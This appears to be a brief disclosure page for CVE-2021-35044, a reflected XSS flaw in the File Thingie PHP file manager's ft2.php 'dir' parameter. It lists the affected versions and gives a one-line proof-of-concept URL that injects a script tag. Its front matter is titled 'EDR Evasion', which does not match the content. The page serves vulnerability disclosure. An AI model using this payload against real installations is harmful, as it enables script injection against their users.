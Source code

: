 ```yaml
---
layout: default
title: EDR Evasion
parent: Research
nav_order: 3
---
```


# CVE-2021-35044
{: .fs-9 }

File Thingie - XSS Reflected
{: .fs-6 .fw-300 }

---

### Description

File Thingie is a PHP File Manager. It is affected by XSS Reflected via the ft2.php dir parameter.

The versions affected are v2.0, v2.0.8, v2.5.0, v2.5.2, v2.5.3, v2.5.4, v2.5.5, v2.5.6, v2.5.7

### PoC
```yaml
https://example.com/ft2.php?dir=</script><script>alert(1)</script>
```

### Reference

[CVE-2021-35044](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-35044)

